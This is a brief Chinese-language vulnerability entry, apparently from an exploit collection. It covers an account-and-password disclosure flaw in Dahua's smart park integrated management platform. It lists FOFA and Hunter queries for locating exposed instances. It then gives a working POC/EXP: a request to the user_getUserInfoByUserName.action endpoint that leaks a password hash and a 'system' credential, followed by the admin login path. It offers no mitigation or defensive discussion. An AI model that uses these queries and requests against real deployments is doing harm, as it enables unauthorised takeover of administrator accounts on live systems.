 # 大华 智慧园区综合管理平台 user_getUserInfoByUserName.action 账号密码泄漏漏洞

## 网络测绘

fofa: app="dahua-智慧园区综合管理平台"

hunter: app.name="Dahua 大华 智慧园区管理平台"

## POC / EXP

```
/admin/user_getUserInfoByUserName.action?userName=system

1ebe47fb5b1299c1ecc061e248450b83
system:dss:Admin123
```

```
/admin/login_login.action
```